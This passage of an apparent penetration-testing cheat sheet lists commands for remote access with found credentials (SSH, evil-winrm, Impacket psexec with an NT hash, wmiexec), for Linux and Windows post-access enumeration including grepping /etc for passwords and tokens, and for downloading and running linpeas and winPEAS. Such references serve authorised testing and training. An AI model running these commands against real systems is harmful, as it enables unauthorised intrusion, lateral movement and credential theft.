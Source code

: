 4) Remote access using found creds
```bash
# SSH (Linux)
ssh user@$TARGET

# WinRM (Windows, requires TCP 5985/5986)
evil-winrm -i $TARGET -u $USER -p "$PASS"

# Impacket SMB/Remote exec (Windows)
impacket-psexec ${DOMAIN}/${USER}:"$PASS"@${TARGET}
# or if using hashes (LM:NT). If LM unknown, use :NT only.
impacket-psexec ${DOMAIN}/${USER}@${TARGET} -hashes :31d6cfe0d16ae931b73c59d7e0c089c0

# WMI-based semi-interactive shell
impacket-wmiexec ${DOMAIN}/${USER}:"$PASS"@${TARGET}
```

5) Local enumeration — Linux
```bash
# Quick baseline
id
uname -a
lsb_release -a 2>/dev/null
whoami; sudo -l
cat /etc/os-release

# Interesting files/permissions
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
grep -Rin "password|passwd|secret|token" /etc 2>/dev/null | head
ls -la /etc/sudoers* /etc/sudoers.d 2>/dev/null
ss -tulpn

# Automated helper (linpeas)
curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh | tee /tmp/linpeas.out
```

6) Local enumeration — Windows
```cmd
whoami /all
systeminfo
hostname && ver
net user
net localgroup administrators
wmic qfe get HotFixID,InstalledOn,Description
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\"
schtasks /query /fo LIST /v | findstr /i "TaskName\|Author\|Run As\|Next Run Time"
ipconfig /all
netstat -ano

REM Automated helper (winPEAS) - after uploading winPEAS.exe
winPEAS.exe > C:\Windows\Temp\winpeas.txt
```
